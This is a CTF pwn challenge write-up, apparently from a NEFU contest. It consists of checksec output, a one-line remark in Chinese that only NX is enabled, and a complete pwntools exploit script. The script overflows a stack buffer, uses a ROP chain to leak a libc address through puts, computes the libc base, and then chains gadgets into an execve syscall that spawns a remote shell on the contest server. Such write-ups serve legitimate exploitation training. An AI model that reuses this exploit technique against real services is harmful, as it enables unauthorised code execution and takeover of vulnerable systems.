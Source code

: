 ```assembly
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

​	只开了nx

```python
from pwn import *
rsi_add=0x401182
#this+pop_rsi==pop rdi
rdi_add=0x40117E
#^^^^^^^^^^^^^^^^^^^^^
puts_plt=0x401060
main_add=0x40120E
vuln_add=0x4011D5
leak_got=0x404028
ret_add=0x101a
rdxrcx_add=0x11f2e7
rax_add=0x45eb0
syscall_add=0x91316

context.log_level = 'debug'
context.arch = 'amd64'
libc=ELF("./libc.so.6")
r=remote("contest.ctf.nefu.edu.cn",33794)
#r=process("./pwn")
#gdb.attach(r)
#pause()

r.recv()
payload1=b'a'*0x28+p64(rsi_add)+p64(leak_got)+p64(rdi_add)+p64(puts_plt)+p64(vuln_add)

r.sendline(payload1)
pause()
main_add=u64(r.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
base_add=main_add-libc.sym["read"]

print(hex(base_add))
binsh_add=libc.search("/bin/sh").next()
sys_add=libc.sym["system"]
print(hex(binsh_add))
print(hex(sys_add))
#payload2=b'a'*0x28+p64(rsi_add)+p64(binsh_add+base_add)+p64(rdi_add)+p64(sys_add+base_add)
payload2=b'a'*0x28+p64(rsi_add)+p64(binsh_add+base_add)+p64(rdi_add)+p64(rsi_add)+p64(0)+p64(rdxrcx_add+base_add)+p64(0)+p64(0)+p64(rax_add+base_add)+p64(59)+p64(syscall_add+base_add)
r.sendline(payload2)

r.interactive()
```
